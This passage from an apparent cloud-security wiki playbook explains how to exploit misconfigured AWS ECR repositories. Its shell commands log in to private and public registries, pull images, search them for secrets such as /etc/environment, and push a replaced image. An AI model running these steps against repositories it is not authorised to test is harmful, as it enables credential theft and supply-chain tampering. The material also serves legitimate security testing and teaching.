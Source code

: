 ### ECR Repositories[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#ecr-repositories "Permanent link")
#### Private Repository Access[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#private-repository-access "Permanent link")
Even if the repository is private, it can be misconfigured so that it allows any other AWS account to access it.
`# Login first # This command might not work on Windows aws ecr get-login-password | docker login \     --username AWS \     --password-stdin 123456789012.dkr.ecr.$region.amazonaws.com/example-private  # Pull image docker pull 123456789012.dkr.ecr.$region.amazonaws.com/example-private:latest  # Inspect image for secrets # You can search the image in multiple ways docker history 123456789012.dkr.ecr.$region.amazonaws.com/example-private:latest --no-trunc docker inspect 123456789012.dkr.ecr.$region.amazonaws.com/example-private:latest docker run -it 123456789012.dkr.ecr.$region.amazonaws.com/example-private:latest cat /etc/environment  # You can even push a new version of the image # if the ECR is that badly misconfigured docker push 123456789012.dkr.ecr.$region.amazonaws.com/example-private:latest`

#### Public Repository Access[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#public-repository-access "Permanent link")
This is the case where the company created a public repository instead of a private one. Compared with the other services from section 3, this one can be found from a black-box perspective.
`# You can find the repository by searching it # https://gallery.ecr.aws/search?searchTerm=hackingthe.cloud  # Login # The public ECR is available only in us-east-1 aws ecr-public get-login-password --region us-east-1 | docker login \     --username AWS \     --password-stdin public.ecr.aws/id123456/example-public  # Pull public image docker pull public.ecr.aws/id123456/example-public  # Inspect image for secrets # You can search the image in multiple ways docker history public.ecr.aws/id123456/example-public --no-trunc docker inspect public.ecr.aws/id123456/example-public docker run -it 1public.ecr.aws/id123456/example-public cat /etc/environment`